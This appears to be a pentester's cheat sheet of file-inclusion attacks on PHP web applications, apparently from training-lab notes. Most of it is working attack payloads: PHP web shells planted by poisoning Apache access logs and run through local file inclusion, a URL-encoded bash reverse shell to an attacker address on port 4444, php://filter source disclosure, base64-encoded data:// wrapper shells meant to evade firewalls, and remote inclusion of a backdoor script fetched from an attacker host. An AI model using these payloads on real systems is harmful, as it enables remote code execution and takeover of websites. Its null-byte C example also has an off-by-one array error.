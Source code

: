 ### Contaminating Log Files to LFI
```
1.
nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig

2. User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
http://10.11.0.22/menu.php?file=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

Windows log path:
C:\xampp\apache\logs\

Tricks:
Try also to change / for \  
Try also to remove C:/
```
```
PHP Filters:
Read File: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
Base64 to bypass firewall etc: curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
Execute code: curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Null byte to mark the end of file
```
To write a string in PHP, we simply write
$string = ‘hello’;
Unfortunately, C does not have a string data type. To write a string in C/C++ we must use an array.
Char string[5];
string[0]=’h’;
string[1]=’e’;
string[2]=’l’;
string[3]=’l’;
string[4]=’o’;
string[5]=’\0′;
http://www.bostonwebgroup.com/script.php?file=shell.php%00.dat
```

### PHP wrappers
>When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the data:// wrapper with base64-encoded data. We'll first encode the PHP snippet into base64, then use curl to embed and execute it via the data:// wrapper.
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64 (PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==)

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```
>we need to be aware that the data:// wrapper will not work in a default PHP installation. To exploit it, the allow_url_include7 setting needs to be enabled
